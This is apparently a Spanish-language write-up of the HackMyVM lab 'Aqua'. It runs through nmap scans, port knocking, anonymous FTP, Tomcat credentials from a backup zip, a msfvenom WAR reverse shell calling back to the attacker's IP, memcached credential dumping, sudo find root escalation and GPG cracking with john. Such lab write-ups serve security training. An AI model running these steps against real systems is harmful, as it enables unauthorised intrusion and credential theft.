



# Aqua HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.26

## Nmap

Realizamos un scaneo rapido
```BASH
❯ sudo nmap -Pn -sS -n -p- 10.0.2.26
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-12 12:41 EDT
Nmap scan report for 10.0.2.26
Host is up (0.000081s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
8009/tcp open     ajp13
8080/tcp open     http-proxy
MAC Address: 08:00:27:8D:28:9B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

Viendo la pagina en el puerto 80 tenemos una pagina sobre el agua, y en el puerto 8080 esta el servicio Tomcat.

Lanzamos una busqueda de directorios

```BASH
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.26/ -x .txt     
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.26/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/03/12 13:16:21 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.26/img/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.26/css/]
/robots.txt           (Status: 200) [Size: 33]
/server-status        (Status: 403) [Size: 274]
Progress: 440368 / 441122 (99.83%)
===============================================================
2023/03/12 13:16:43 Finished
===============================================================
```

Viendo el robots.txt entontramos un nuevo directorio
```BASH
❯ curl --url "http://10.0.2.26/robots.txt"                        
User-Agent: *
Disalow: /SuperCMS
```

Realizando scaneos sobre /SuperCMS podemos ver que es un repositorio de github. Tambien podemos visualizar que tiene un login

```BASH
❯ nikto -h http://10.0.2.26/SuperCMS 
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.26
+ Target Hostname:    10.0.2.26
+ Target Port:        80
+ Start Time:         2023-03-12 13:19:54 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /SuperCMS/: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /SuperCMS/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /SuperCMS/: Server may leak inodes via ETags, header found with file /SuperCMS/, inode: 31f, size: 5cd741201fdee, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST .
+ /SuperCMS/css/: Directory indexing found.
+ /SuperCMS/css/: This might be interesting.
+ /SuperCMS/img/: Directory indexing found.
+ /SuperCMS/img/: This might be interesting.
+ /SuperCMS/login.html: Admin login page/section found.
+ /SuperCMS/.git/index: Git Index file may contain directory listing information.
+ /SuperCMS/.git/HEAD: Git HEAD file found. Full repo details may be present.
+ /SuperCMS/.git/config: Git config file found. Infos about repo details may be present.
+ /SuperCMS/README.md: Readme Found.
+ 8102 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-03-12 13:20:06 (GMT-4) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Viendo el codigo de la pagina me encuentro con un codigo de base64 y lo decodifico

```BASH
❯ echo 'MT0yID0gcGFzc3dvcmRfemlwCg==' | base64 -d; echo
1=2 = password_zip
```

Lo que significa este 1=2 se puede deducir de la pagina http que corre el puerto 80 
```HTML
❯ curl --url "http://10.0.2.26"         
<!DOCTYPE html>

<html>
	[...Codigo...]	
		<h1> El agua (del latín aqua)</h1>
			<p> El (agua)1 es una sustancia cuya molécula está compuesta por dos átomos de hidrógeno 
                        y uno de oxígeno (H2O)2. El término agua, generalmente, se refiere a la sustancia en su estado líquido, aunque esta puede hallarse en su forma sólida, llamada hielo, y en su forma gaseosa,
        [...Codigo...]
```

Viendo la pagina podemos ver que ``agua=1`` y ``H2O=2`` entonces ``agua=H20`` = ``password_zip``

Viendo la pagina de login y su codigo vemos que nos dejan un repositorio de github

```HTML
❯ curl --url "http://10.0.2.26/SuperCMS/login.html"
<!DOCTYPE html>
<html lang="es">
    [...Codigo...]
                    <div class="login-btn">
                        <button class="btn" onclick="check(this.form)">Submit</button>
			<!--<button class="btn" href="www.twitter.com/AquilinoMS">Contact</button>-->
			<!--https://web.archive.org/web/*/www.twitter.com/**********-->
                        <p class="signup">Not registered?<span><a href="#"> Create an account</a></span></p>
                    	<!--<p class ="Source"SuperCMS<span><a href="github.com/aquilino/SuperCMS"> look source code</a></span></p>-->
			</div>
                </div>
            </div>
        </form>
    </body>
</html>
```
Viendo el repositorio y sus commits anteriores vemos uno que se llama **knocking_on_atlantis_door.txt**. Esto me deja pensando ya que habia un puerto que esta filtered.

```
knocking_on_Atlantis_door.txt

Para abrir  las puertas esta es la secuencia
(☞ﾟヮﾟ)☞ 1100,800,666 ☜(ﾟヮﾟ☜)
```

```BASH
❯ knock 10.0.2.26 1100 800 666  
                       
❯ sudo nmap -Pn -sS -n -p- 10.0.2.26
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-12 13:43 EDT
Nmap scan report for 10.0.2.26
Host is up (0.000081s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 08:00:27:8D:28:9B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
```

Ok, ya abrimos el puerto 21 y por suerte si tiene acceso anonimo
```BASH
❯ ftp 10.0.2.26
Connected to 10.0.2.26.
Name (10.0.2.26:kali): anonymous
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||5975|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jun 30  2021 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||30805|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jun 30  2021 .
drwxr-xr-x    3 0        0            4096 Feb 03  2021 ..
-rw-r--r--    1 0        0            1250 Feb 03  2021 .backup.zip
226 Directory send OK.
ftp> get .backup.zip
local: .backup.zip remote: .backup.zip
229 Entering Extended Passive Mode (|||55069|)
150 Opening BINARY mode data connection for .backup.zip (1250 bytes).
100% |***********************************************************************************************************************************************|  1250      212.18 KiB/s    00:00 ETA
226 Transfer complete.
```

Ahora vemos que es lo que contine el **.backup.zip**
Nos creamos un directorio, lo muevo al directorio y lo descomprimo usando las credenciales que encontramos hace una rato de ``agua=H2O``

```BASH
❯ mv .backup.zip Documents/Aqua/backup.zip

❯ cd Documents/Aqua/ 

❯ 7z x backup.zip 

Scanning the drive for archives:
1 file, 1250 bytes (2 KiB)

Extracting archive: backup.zip
--
Path = backup.zip
Type = zip
Physical Size = 1250

    
Enter password (will not be echoed):
Everything is Ok       

Size:       2326
Compressed: 1250
```

Nos descomprime un archivo tomcat-users.xml que nos regala las credenciales

```
❯ cat tomcat-users.xml

[...tomcat-users.xml...]
<!--
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
        <role rolename="manager-gui"/>
        <role rolename="admin-gui"/>
        <user username="aquaMan" password="******M4n" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Entrando a la pagina de Manager App en tomcat

Una vez dentro podemos crear un archivo .WAR que nos realice una reverse shell hacia nuestra maquina.

```
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f war -o revshell.war
```

Lo subimos en la pagina de tomcat, nos podemos en escucha y entablamos conexion.




```BASH
❯ nc -lvnp 443                      
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.26] 50074
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Ahora si podemos mejorarnos la shell a una shell inteligente

```BASH
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@Atlantis:/$ ^Z
zsh: suspended  nc -lvnp 443
                                                
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443

tomcat@Atlantis:/$ export TERM=xterm SHELL=bash
```

Jugando un poco y viendo archivos dentro de la maquina encontramos un memchad

```
tomcat@Atlantis:~$ ps aux | grep -u root

tomcat@Atlantis:~$ ps aux | grep "memcached"
memcache   835  0.0  0.2 425800  3956 ?        Ssl  16:21   0:05 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
tomcat    1090  0.0  0.0  13220  1076 pts/0    S+   18:33   0:00 grep memcached
```

Le pregunte a bing chat que es memcached
```
Hola, este es Bing. Memcached es un programa que ayuda a las páginas web a funcionar más rápido y mejor. 
Imagina que tienes una caja grande donde guardas tus juguetes favoritos. 
Cada vez que quieres jugar con uno de ellos, tienes que buscarlo en la caja y sacarlo. 
Eso puede tomar mucho tiempo y ser aburrido. 
Pero si tienes una cesta pequeña donde pones los juguetes que más usas, puedes encontrarlos más rápido y fácilmente. 
Memcached hace algo parecido: guarda la información más importante de las páginas web en un lugar especial llamado memoria RAM1,
donde se puede acceder a ella rápidamente sin tener que buscarla en otro lugar2. 
Así las páginas web pueden mostrarte lo que quieres ver sin hacerte esperar mucho3. ¿Entiendes lo que es Memcached? 😊
```

Con esta pagina puedo ver los comandos que puedo correr 
https://lzone.de/cheat-sheet/memcached

Primero nos conectamos 
```
tomcat@Atlantis:~$ telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
```

Luego vemos las estadisticas con ``stats``

```
stats

STAT pid 835
STAT uptime 8683
STAT time 1678646741
STAT version 1.5.6 Ubuntu
STAT libevent 2.1.8-stable
STAT pointer_size 64
STAT rusage_user 1.485663
STAT rusage_system 4.212637
STAT max_connections 1024
STAT curr_connections 1
STAT total_connections 6949
STAT rejected_connections 0
STAT connection_structures 3
STAT reserved_fds 20
STAT cmd_get 0
STAT cmd_set 34735
STAT cmd_flush 0
STAT cmd_touch 0
STAT get_hits 0
STAT get_misses 0
STAT get_expired 0
STAT get_flushed 0
STAT delete_misses 0
STAT delete_hits 0
STAT incr_misses 0
STAT incr_hits 0
STAT decr_misses 0
STAT decr_hits 0
STAT cas_misses 0
STAT cas_hits 0
STAT cas_badval 0
STAT touch_hits 0
STAT touch_misses 0
STAT auth_cmds 0
STAT auth_errors 0
STAT bytes_read 1160156
STAT bytes_written 277880
STAT limit_maxbytes 67108864
STAT accepting_conns 1
STAT listen_disabled_num 0
STAT time_in_listen_disabled_us 0
STAT threads 4
STAT conn_yields 0
STAT hash_power_level 16
STAT hash_bytes 524288
STAT hash_is_expanding 0
STAT slab_reassign_rescues 0
STAT slab_reassign_chunk_rescues 0
STAT slab_reassign_evictions_nomem 0
STAT slab_reassign_inline_reclaim 0
STAT slab_reassign_busy_items 0
STAT slab_reassign_busy_deletes 0
STAT slab_reassign_running 0
STAT slabs_moved 0
STAT lru_crawler_running 0
STAT lru_crawler_starts 4335
STAT lru_maintainer_juggles 100439
STAT malloc_fails 0
STAT log_worker_dropped 0
STAT log_worker_written 0
STAT log_watcher_skipped 0
STAT log_watcher_sent 0
STAT bytes 383
STAT curr_items 5
STAT total_items 34735
STAT slab_global_page_pool 0
STAT expired_unfetched 0
STAT evicted_unfetched 0
STAT evicted_active 0
STAT evictions 0
STAT reclaimed 0
STAT crawler_reclaimed 0
STAT crawler_items_checked 64
STAT lrutail_reflocked 0
STAT moves_to_cold 34725
STAT moves_to_warm 0
STAT moves_within_lru 0
STAT direct_reclaims 0
STAT lru_bumps_dropped 0
```
```
stats cachedump 1 1000
ITEM id [4 b; 0 s]
ITEM email [17 b; 0 s]
ITEM Name [14 b; 0 s]
ITEM password [18 b; 0 s]
ITEM username [8 b; 0 s]
```
```
get username
VALUE username 0 8
tridente
END

get password
VALUE password 0 18
***************4r$
END
```

Nos conectamos mediante ssh con las credenciales

```BASH
❯ ssh tridente@10.0.2.26

tridente@Atlantis:~$ ls
find  user.txt
tridente@Atlantis:~$ cat user.txt 
Bien echo ya tienes el tridente
flag --> ************************5914aeba
```

Una ya vez dentro del usuario tridente, comenzamos a ver como escalar privilegios

```
tridente@Atlantis:~$ sudo -l
[sudo] password for tridente: 
Sorry, try again.
[sudo] password for tridente: 
Matching Defaults entries for tridente on Atlantis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tridente may run the following commands on Atlantis:
    (root) /home/tridente/find
```
Ok, perfecto con find escalamos privilegios de la siguiente manera

```
tridente@Atlantis:~$ sudo /home/tridente/find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
cache.php  root.txt.gpg  server.py
```

Explicando el comando de find:

* ``sudo`` ejecuta el comando como superusuario o root
* ``find .`` Busca archivos y directorios en el directorio actual y en todos los subdirectorios
* ``-exec /bin/sh \;`` Ejecuta un shell para cada archivo o directorio encontrado
* ``-quit`` se detiene después de encontrar la primera coincidencia

Al parecer el GPG es un tipo de cifrado y no podemos leer la flag de root, la vamos a descargar e intentar leerla con jhon

Nos montamos un servidor con python
```
# ls
cache.php  root.txt.gpg  server.py

# python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.0.2.4 - - [12/Mar/2023 19:03:11] "GET /root.txt.gpg HTTP/1.1" 200 -
```

Descargamos el archivo ``root.txt.gpg``
```
❯ wget http://10.0.2.26:9001/root.txt.gpg
--2023-03-12 14:50:24--  http://10.0.2.26:9001/root.txt.gpg
Connecting to 10.0.2.26:9001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 168 [application/octet-stream]
Saving to: ‘root.txt.gpg’

root.txt.gpg          100%[=========================>]     168  --.-KB/s    in 0.005s  

2023-03-12 14:50:24 (33.6 KB/s) - ‘root.txt.gpg’ saved [168/168]
```

```
❯ gpg2john root.txt.gpg > root_hash

File root.txt.gpg

❯ john -w=/usr/share/wordlists/rockyou.txt root_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 41943040 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
a*****           (?)     
1g 0:00:00:29 DONE (2023-03-12 14:55) 0.03436g/s 49.20p/s 49.20c/s 49.20C/s bernard..12345a
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ahora solo queda decifrar al archivo con el password

```
❯ gpg root.txt.gpg 
gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

❯ cat root.txt 
Bien hecho Arthur eres el nuevo Rey de la Atlantida        
flag --> ************************e10a197e
```